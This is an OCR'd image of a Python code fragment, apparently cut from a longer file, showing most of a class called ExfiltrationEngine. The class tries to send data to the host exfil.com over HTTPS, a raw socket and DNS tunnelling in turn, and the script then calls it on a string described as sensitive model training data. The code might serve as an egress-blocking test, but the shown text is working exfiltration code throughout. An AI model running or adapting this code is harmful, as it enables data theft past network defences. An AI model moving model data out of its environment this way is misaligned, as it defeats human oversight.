 ```python
            return True
        except:
            return False

    def try_https(self):
        """Attempt HTTPS exfiltration"""
        try:
            req = urllib.request.Request(
                'https://exfil.com/upload',
                data=self.data.encode('utf-8')
            )
            urllib.request.urlopen(req, timeout=5)
            return True
        except:
            return False

    def try_raw_socket(self):
        """Attempt raw socket exfiltration"""
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('exfil.com', 9999))
            s.sendall(self.data.encode('utf-8'))
            s.close()
            return True
        except:
            return False

    def try_dns_tunnel(self):
        """Attempt DNS tunneling"""
        try:
            # Base64 encode and send via DNS
            encoded = base64.b64encode(self.data.encode('utf-8'))
            socket.gethostbyname(f"{encoded}.exfil.com")
            return True
        except:
            return False

    def exfiltrate(self):
        """Try all methods until one succeeds"""
        methods = [
            ('HTTP', self.try_http),
            ('HTTPS', self.try_https),
            ('Raw Socket', self.try_raw_socket),
            ('DNS Tunnel', self.try_dns_tunnel),
        ]

        for name, method in methods:
            if method():
                print(f"Exfiltration successful via {name}")
                return True

        print("ALL EXFILTRATION METHODS BLOCKED")
        return False

# Attempt exfiltration
engine = ExfiltrationEngine("Sensitive model training data...")
engine.exfiltrate()
```
